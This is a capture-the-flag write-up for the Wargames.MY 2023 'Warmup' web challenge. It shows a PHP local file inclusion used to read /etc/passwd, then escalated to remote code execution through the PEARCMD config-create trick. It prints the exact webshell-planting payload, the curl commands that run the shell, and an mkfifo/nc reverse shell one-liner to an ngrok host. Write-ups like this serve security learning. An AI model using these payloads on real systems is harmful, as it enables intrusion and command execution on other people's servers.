 # Warmup

<div class="hidden">
    <details>
        <summary>Keywords</summary>
        Wargames.MY CTF 2023, web, php, RCE, LFI
    </details>
</div>

## Series

1. **Warmup**
2. [Status](../status/)
3. [Secret](../secret/)

## TL;DR

LFI to RCE via PHP PEARCMD

## Initial Analysis

We are presented with an input box that asks for a password.

![webpage](./static/img-01.png)

The password checker is done on the client side via a minified javascript called
`script.min.js`.

![submit button](./static/img-02.png)

We can then deobfuscate the script with <https://deobfuscate.io/> which manage
to detect the matching obfuscator and redirects us to <https://obf-io.deobfuscate.io/>.

## Passing The Password Checker

Looking at the deobfuscated script, we can see that the password is
`this_password_is_so_weak_i_can_crack_in_1_sec!` and if we give this password,
it would reach out to `/api/4aa22934982f984b8a0438b701e8dec8.php` endpoint
and hopefully give us the flag.

```js
/* ... */
document.querySelector('button').addEventListener("click", _0x3ac921 => {
  _0x3ac921.preventDefault();
  if (document.querySelector("input").value === "this_password_is_so_weak_i_can_crack_in_1_sec!") {
    fetch("/api/4aa22934982f984b8a0438b701e8dec8.php?x=flag_for_warmup.php").then(_0x5c12f5 => _0x5c12f5.text()).then(_0x509e6e => Swal.fire({
      'title': "Good job!",
      'html': _0x509e6e,
      'icon': "success"
    }));
  } else {
    Swal.fire({
      'title': "Oops...",
      'text': "wrong password",
      'icon': "error"
    });
  }
});
```

Unfortunately, there is no flag, but it mentioned about comment.

![correct popup](./static/img-03.png)

If we try to use `curl` to visit the endpoint, we could see there is an HTML
comment, but it is still not it.

```console
$ curl -s http://warmup.wargames.my/api/4aa22934982f984b8a0438b701e8dec8.php?x=flag_for_warmup.php
here's your flag <small>in comment</small> <!-- well, maybe not this comment -->
```

## LFI

Notice that the API endpoint accepts a filename for the parameter query `x`.
This almost screams LFI (local file inclusion) to me.

We can try to pass in `/etc/passwd` and we indeed get the file content

```console
$ curl -s http://warmup.wargames.my/api/4aa22934982f984b8a0438b701e8dec8.php?x=/etc/passwd
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
[...]
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
www-data:x:82:82:Linux User,,,:/home/www-data:/sbin/nologin
```

There are lots of filter implemented to deny us from accessing stuff like `procfs`
and wrappers such as `php://input`, `php://filter/convert`, `data://`, etc.

I was not able to bypass it but other participants managed to do it by:

- [double URL encoding (@Shen)](<https://hackmd.io/@Shenn/BkzLFNoIa>)
- [using zlib filter (@vicevirus)](https://vicevirus.github.io/posts/warmupweb-wgmy-2023/)

## LFI2RCE

In the end, I stumbled upon this [cheat sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#lfi-to-rce-via-php-pearcmd)
which allows us to get RCE with `PHP PEARCMD` which most probably satisfy the
prerequisite as most CTF challenges uses php image from docker registry.

This is the payload that I used:

```text
?+config-create+/&x=/usr/local/lib/php/pearcmd.php&/<?=system($_GET['c'])?>+/tmp/pir.php
```

![webshell](./static/img-04.png)

Next, we can use the uploaded webshell to execute arbitrary command

```console
$ curl -s 'http://warmup.wargames.my/api/4aa22934982f984b8a0438b701e8dec8.php?x=/tmp/pir.php&c=id'
#PEAR_Config 0.9
a:12:{s:7:"php_dir";s:68:"/&x=/usr/local/lib/php/pearcmd.php&/uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)
uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)/pear/php";s:8:"data_dir";s:69:"/&x=/usr/local/lib/php/pearcmd.php&/uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)
uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)/pear/data";s:7:"www_dir";s:68:"/&x=/usr/local/lib/php/pearcmd.php&/uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)
uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)/pear/www";s:7:"cfg_dir";s:68:"/&x=/usr/local/lib/php/pearcmd.php&/uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)
uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)/pear/cfg";s:7:"ext_dir";s:68:"/&x=/usr/local/lib/php/pearcmd.php&/uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)
uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)/pear/ext";s:7:"doc_dir";s:69:"/&x=/usr/local/lib/php/pearcmd.php&/uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)
uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)/pear/docs";s:8:"test_dir";s:70:"/&x=/usr/local/lib/php/pearcmd.php&/uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)
uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)/pear/tests";s:9:"cache_dir";s:70:"/&x=/usr/local/lib/php/pearcmd.php&/uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)
uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)/pear/cache";s:12:"download_dir";s:73:"/&x=/usr/local/lib/php/pearcmd.php&/uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)
uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)/pear/download";s:8:"temp_dir";s:69:"/&x=/usr/local/lib/php/pearcmd.php&/uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)
uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)/pear/temp";s:7:"bin_dir";s:64:"/&x=/usr/local/lib/php/pearcmd.php&/uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)
uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)/pear";s:7:"man_dir";s:68:"/&x=/usr/local/lib/php/pearcmd.php&/uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)
uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)/pear/man";}
```

Since the output is duplicated many times, I tried to get reverse shell on the
remote server with this payload:

```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $NGROK_IP $NGROK_PORT >/tmp/f
```

![flag](./static/img-05.png)


flag: `wgmy{1ca200caa85d3a8dcec7d660e7361f79}`

On the next part of the [post](../status/), we will see that we actually gain a shell inside a
kubernetes pod and try to poke around with the this challenge deployment.

## References

- <https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#lfi-to-rce-via-php-pearcmd>
